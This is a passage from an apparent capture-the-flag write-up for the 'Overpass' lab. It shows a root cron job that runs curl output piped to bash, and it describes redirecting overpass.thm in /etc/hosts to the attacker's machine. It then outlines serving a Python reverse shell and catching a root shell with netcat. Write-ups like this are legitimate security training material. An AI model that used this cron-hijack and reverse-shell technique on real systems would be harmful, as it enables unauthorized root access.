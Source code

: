 ```bash
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

>>With linpeas we found a found that overpass.thm is points on the localhost(127.0.0.1).We can able to edit that to point that to our own machine ip.
>>And seeing the crontab there is a way to get the reverse shell as root after redirecting the overpass.thm to our machine. 

```bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
james@overpass-prod:~$ nano /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.10.76.219 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
james@overpass-prod:~$ ping overpass.thm 
PING overpass.thm (10.10.76.219) 56(84) bytes of data.
64 bytes from overpass.thm (10.10.76.219): icmp_seq=1 ttl=64 time=0.345 ms
```

>>At our local machine make directory 'mkdir -p /downloads/src' and touch a buildscript.sh to replicate that curl we found from the crontab.
>>In the buildscript.sh we use the python reverse shell. 
>>Serving it from our machine using python local server.
>>Since we are connected to target with overpass.thm.Open another window and create a netcat listener on the you specified on the reverse shell.
>>It will make connection and root shell is obtained.
